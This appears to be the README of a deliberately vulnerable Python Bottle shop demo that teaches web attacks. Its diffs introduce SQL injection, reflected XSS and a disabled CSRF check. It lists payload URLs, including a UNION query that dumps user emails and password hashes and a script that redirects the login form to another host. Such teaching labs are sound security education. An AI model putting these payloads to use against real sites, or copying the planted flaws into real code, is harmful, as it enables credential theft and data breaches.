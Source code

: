 # bottle-store
 EC site example using Python bottle.

# SQL Injection

```diff:app.py
-        results = cur.execute("SELECT * FROM rated_products WHERE name LIKE ?;", ("%" + query + "%",)).fetchall()
+        results = cur.execute("SELECT * FROM rated_products WHERE name LIKE %'" + query + "%'").fetchall()
```

```
http://localhost:8080/products?q='
```

```
http://localhost:8080/products?q='--
```

```
http://localhost:8080/products?q=x%' UNION SELECT 1, tbl_name, 1, 1, 1, 1 FROM sqlite_master--
```

```
http://localhost:8080/products?q=x%' UNION SELECT 1, id, email, 1, hashed_password, nickname FROM users--
```

# Reflected XSS

```diff:app.py
-<p style="color:red;"> {{ message }} </p>
+<p style="color:red;"> {{ !message }} </p>
```

```
http://localhost:8080/login?message=<s>hello</s>
```

```
http://localhost:8080/login?message=<script>window.onload=function(){document.querySelector('form').action='http://localhost:8081/users'}</script>
```

# CSRF and Persistent XSS

```diff:app.py
-    if form_token != cookie_token:
-        abort(400, '不正なアクセスです。')
+    #if form_token != cookie_token:
+    #    abort(400, '不正なアクセスです。')
```

```
http://localhost:8081/evil_game1
```

# DOM based XSS


# Clickjucking

